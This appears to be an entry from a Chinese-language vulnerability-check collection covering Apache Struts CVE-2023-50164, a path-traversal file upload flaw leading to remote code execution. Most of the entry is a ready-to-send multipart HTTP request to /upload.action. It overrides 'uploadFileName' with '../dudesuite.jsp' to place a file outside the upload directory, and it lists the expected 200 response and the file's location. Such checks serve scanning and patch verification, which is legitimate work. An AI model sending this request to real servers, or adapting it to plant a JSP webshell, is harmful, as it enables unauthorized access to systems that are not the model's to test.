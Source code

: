 ﻿# Apache Struts RCE CVE-2023-50164

> 更新时间：2024-01-15

> 漏洞编号：CVE-2023-50164

> 漏洞说明：由于 Struts 框架在处理参数名称大小写方面的不一致性，导致未经身份验证的远程攻击者能够通过修改参数名称的大小写来利用目录遍历技术上传恶意文件到服务器的非预期位置，最终导致代码执行。影响版本: 2.0.0<= Struts <= 2.3.37 2.5.0 <= Struts <= 2.5.32 6.0.0 <= Struts <= 6.3.0

> 漏洞特征：

> 验证脚本：HTTP

```
POST /upload.action HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

dudesuite
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName";
Content-Type: text/plain

../dudesuite.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/dudesuite.jsp


> 验证文件来源：Apache Struts RCE CVE-2023-50164.poc
